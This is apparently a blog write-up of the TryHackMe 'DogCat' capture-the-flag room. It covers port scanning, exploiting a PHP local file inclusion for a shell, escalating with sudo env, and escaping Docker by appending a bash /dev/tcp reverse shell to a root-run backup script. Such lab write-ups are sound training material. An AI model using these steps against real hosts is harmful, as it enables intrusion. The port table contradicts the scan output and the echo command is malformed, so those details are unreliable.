 ```yaml
---
title: "DogCat CTF"
image: /room_image.webp
categories: [CTFs ,Tryhackme]
tags: []
media_subpath: /images/dogcat-ctf
author: <author_id>
---
```


This Capture the Flag (CTF) challenge invites participants to explore and exploit a **PHP-based** web application designed to showcase images of cats and dogs, uncovering vulnerabilities beneath its seemingly benign exterior. Your objective is to identify and leverage a **Local File Inclusion** (LFI) flaw, enabling access to sensitive files and deeper system insights. Beyond this, you must demonstrate advanced exploitation skills by escaping the constraints of a **Docker** containerized environment, simulating real-world scenarios where attackers pivot from web-layer vulnerabilities to host-level exploitation. This challenge sharpens skills in web application security, container escape techniques, and lateral movement in constrained environments.

----

## **Enumeration - Nmap Scan**

```console
root@ip-10-10-250-210:~# nmap -n -sC -sV -p- -T4 10.10.234.138

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-18 15:06 GMT

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:09:A9:08:AE:5B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1227.11 seconds
           Raw packets sent: 125333 (5.515MB) | Rcvd: 355432 (58.904MB)
```
### **Open Ports**

| Ports | Services | Version                      |
| ----- | -------- | ---------------------------- |
| 22    | SSH      | OpenSSH 8.2  Ubuntu          |
| 80    | HTTP     | SimpleHTTP/0.6 Python/3.11.2 |

![Desktop View](/webpage-80.webp){: width="1200" height="450" }

Let's see the code source of the pages you can use inspector in the web browser or just used `view-source:<URL>` example view-source:example.com

![Desktop View](/source-code.webp){: width="1200" height="450" }

{% include embed/video.html src='/explained-video.mp4' loop=true %}

## **WebPage Enumeration**

```console
root@ip-10-10-250-210:~# whatweb http://10.10.234.138
http://10.10.234.138 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.234.138], PHP[7.4.3], Title[dogcat], X-Powered-By[PHP/7.4.3]
```

> you can use Wappalyzer : extension used to identify the technologies powering websites
{: .prompt-tip}

**Information :**
1. Apache[2.4.38]
2. HTTPServer[Debian Linux]
3. PHP[7.4.3]

> you can do some research about this information to find if there are any vulns can you used
{: .prompt-tip}


## **Reverse Shell From LFI**

![Desktop View](/ls-dogcat-ctf.webp){: width="1200" height="450" }
![Desktop View](/reverse-shell-dogcat-ctf.webp){: width="1200" height="450" }

```console 
www-data@1e8fecd5cd10:/var/www/html$ ls
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
www-data@1e8fecd5cd10:/var/www/html$ cat flag.php
cat flag.php
<?php
$flag_1 = "THM{**********************}"
?>
www-data@1e8fecd5cd10:/var/www/html$ cd ..
www-data@1e8fecd5cd10:/var/www/html$ ls
flag2_QMW7JvaY2LvK.txt

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 1e8fecd5cd10:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 1e8fecd5cd10:
    (root) NOPASSWD: /usr/bin/env

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo /usr/bin/env /bin/bash

pwd
/root
ls      
flag3.txt
cat flag3.txt

```
```console
ls -al
.
..
.dockerenv
...

```

```console
ls opt
backups
cd opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
So now we just need another reverse shell after we need to add `echo "bash -i >& /dev/tcp/<IP_attacker>/<Port> 0>&1" backup.sh"`
 
 ```console 
 root@dogcat:~# ls
 ls
container
flag4.txt
cat flag4.txt
```